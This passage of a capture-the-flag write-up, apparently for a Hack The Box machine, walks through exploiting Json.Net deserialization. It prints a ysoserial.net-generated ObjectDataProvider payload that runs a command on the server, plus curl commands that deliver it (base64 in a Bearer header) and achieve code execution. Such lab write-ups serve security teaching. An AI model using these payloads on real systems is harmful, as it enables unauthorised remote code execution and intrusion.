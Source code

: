 It means that the deserialization of the data is mishandled and can be a vulnerability. We can check this with a tool called [ysoserial.net](https://github.com/pwntester/ysoserial.net).
<br>

Going to a windows machine. After copying and running the ysoserial.exe file in a windows machine using the command:
```bash
.\ysoserial.net -f Json.Net -g ObjectDataProvider -c "cmd /c ping 10.10.14.87"

```
It will give us this payload:

```JSON
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c ping 10.10.14.87']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
Copying the payload and save it to our Kali Linux box as payload.txt


<br>
### Targeting : /api/token

We setup an icmp sniffer:
```
tcpdump -i tun0 icmp
```
and then we attack. If our payload succeeds, our icmp sniffer should be accepting icmp packets.

```bash
curl http://10.10.10.158/api/token -H "Content-Type: application/json" --data "$(cat payload.txt)"
```
However, this attack only made the server return an error and the server did not execute the ping command.
<br>
### Targeting : /api/Account
```bash
curl http://10.10.10.158/api/Account -H "Content-Type: application/json" -H "Bearer: $(cat payload.txt | base64 -w 0)"
```
This attack made our ping command executed!

![16](/writeups/htb/boxes/images/json_16.png)
